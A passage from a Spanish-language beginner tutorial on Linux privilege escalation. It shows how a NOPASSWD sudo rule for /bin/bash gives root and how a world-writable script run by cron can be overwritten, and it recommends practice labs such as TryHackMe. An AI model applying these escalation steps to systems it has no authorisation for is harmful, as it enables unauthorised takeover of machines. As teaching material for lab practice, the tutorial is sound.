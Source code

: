 ```
User gus may run the following commands on this host:
    (ALL) NOPASSWD: /bin/bash
```

Esto significa que **puedes ejecutar `/bin/bash` como root sin contraseña** 😱.

---

#### Paso 3: Escalar privilegios

```bash
sudo /bin/bash
```

¡Ya eres root! 🎉

Verificación:

```bash
whoami
# Resultado: root

id
# uid=0(root) gid=0(root) groups=0(root)
```

---

### Otro ejemplo sencillo: Script con permisos mal puestos

Supón que encuentras este script:

```bash
ls -l /usr/local/bin/backup.sh
# -rwxrwxrwx 1 root root 200 Jul 26 10:00 /usr/local/bin/backup.sh
```

Cualquiera puede modificarlo (`rwxrwxrwx`). Y si es ejecutado por `root` en una tarea automática (cronjob), podrías **inyectarle código malicioso**.

Modificas el script:

```bash
echo "/bin/bash" > /usr/local/bin/backup.sh
```

La próxima vez que se ejecute... tendrás una shell.

---

### 🎓 Conclusión resumida

| Concepto                 | Explicación simple                                                    |
| ------------------------ | --------------------------------------------------------------------- |
| ¿Qué es?                 | Obtener más privilegios de los que tienes.                            |
| ¿Para qué sirve?         | Acceder a datos sensibles, tomar control total.                       |
| ¿Dónde se aplica?        | Linux, Windows, sitios web, apps móviles.                             |
| ¿Cómo practicar?         | Con TryHackMe, HackTheBox o máquinas locales vulnerables.             |
| Ejemplo típico (sudo -l) | Si puedes usar un programa como `bash` sin contraseña → ya eres root. |

---